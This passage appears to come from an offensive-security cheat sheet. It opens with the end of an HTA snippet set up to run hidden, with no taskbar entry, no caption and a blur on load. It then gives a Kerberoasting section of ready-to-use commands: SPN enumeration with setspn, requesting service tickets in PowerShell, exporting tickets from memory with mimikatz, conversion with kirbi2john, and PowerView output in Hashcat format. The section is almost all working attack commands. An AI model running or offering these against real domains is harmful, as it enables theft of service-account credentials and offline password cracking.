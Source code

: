 ```html
    showInTaskbar="no" 
    border="none" 
    caption="no" 
    maximizeButton="no" 
    minimizeButton="no" 
    sysMenu="no" 
    scroll="no"
/>
</head>
<body onload="window.blur();">
</body>
</html>
```


## Active Directory

#### Force an update
```cmd
gpupdate /force
```

#### Kerberoasting

- Get spns
```cmd
setspn.exe -Q */*
```

- Retrieving all tickets
```powershell
setspn.exe -T DOMAIN.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

- Extract tickets from memory with mimikatz
```cmd
Using 'mimikatz.log' for logfile : OK

mimikatz # base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz # kerberos::list /export  
```

- Extract tickets
```shell
kirbi2john.py user.kirbi
```

#### More automated way

```powershell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
